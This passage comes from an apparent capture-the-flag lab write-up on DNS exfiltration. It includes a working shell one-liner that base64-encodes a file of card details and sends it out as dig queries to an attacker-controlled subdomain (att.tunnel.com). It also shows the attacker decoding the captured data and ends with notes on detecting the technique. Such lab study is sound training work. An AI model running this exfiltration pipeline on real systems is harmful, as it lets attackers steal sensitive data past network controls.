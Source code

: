 	- With this, there would be no need for multiple DNS requests as each subdomains have length of 18 characters and there is nothing that verifies whether this subdomain actually exists or not.(Is there?)

##### 8. Next, from the `victim2` machine, we send the base64 data as a subdomain name with considering the DNS limitation as follows:
`thm@victim2:~$ cat task9/credit.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/ | awk '{print "dig +short " $1}' | bash`

- With some adjustments to the single DNS request, we created and added the `dig` command to send it over the `DNS` , and finally, we passed it to the bash to be executed.
- If we check the Attacker's `tcpdump` terminal, we should receive the data we sent from `victim2`:
![](/assets/img/Pasted image 20230111002352.png)

	- The `victim2` machine will execute a command 'dig +short <subdomain>.<domain>.<com>'
	- Notice that there is ONE DNS request.
	- Remember that the 'attacker' at Network 2 is listening for any udp type traffic and this includes data received via UDP at JumpBox as well.
	- Remember that att.tunnel.com leads to the new Attacker machine at Network 2 as configured.

![](/assets/img/Pasted image 20230110215251.png)

##### 9. Decoding the exfiltrated data through DNS:
```markup
thm@attacker:~$ echo "TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.att.tunnel.com." | cut -d"." -f1-8 | tr -d "." | base64 -d
Name: THM-user
Address: 1234 Internet, THM
Credit Card: 1234-1234-1234-1234
Expire: 05/05/2022
Code: 1337
```

##### Question: How did we extract the exfiltrated information from `victim2` exactly?
- We exfiltrated the information from `victim2` machine not by transferring files from `victim2` to `attacker2` machine but utilizing the fact that any sniffer tool in the internal network, not necessarily on the same network of the machine we want to sniff on, could see DNS requests made by the `victim2`'s machine if the `victim2` machine has some way of reaching out to the `sniffing machine` which in this case is by making a DNS request to the **poisoned domain** (`xxx.att.tunnel.com`). I say this as `poisoined` because if it ever reaches outside which it won't because the firewall will just block it but will be directed to `JumpBox` instead as `tunnel.com` is hosted in here but `att.tunnel.com` is hosted at the attacker's machine at Network 2.
- The firewall blocking the DNS request made by the `victim2` machine is on the attacker's plan because it didn't want that DNS request to go out in the first place, but to sniff it from an adjacent network.

##### Question: From a defender's perspective, how can I know if DNS exfiltration with the same process is being used on my system?
- The fact that the adversary uses DNS requests that has so much subdomains which in this case is `9` and `8 of them doesn't exist.` This should be seen as a red flag.
- One other thing I guess is that seeing a DNS request going out but not via web browsing, I guess you can consider this a red flag as well because how it will turn out might probably how adversaries want it. Like the saying, "One way to know the adversary's motivation is, see what the result of the event." In this case, the result of the event is the DNS request got blocked by the firewall, unable to reach its local DNS.
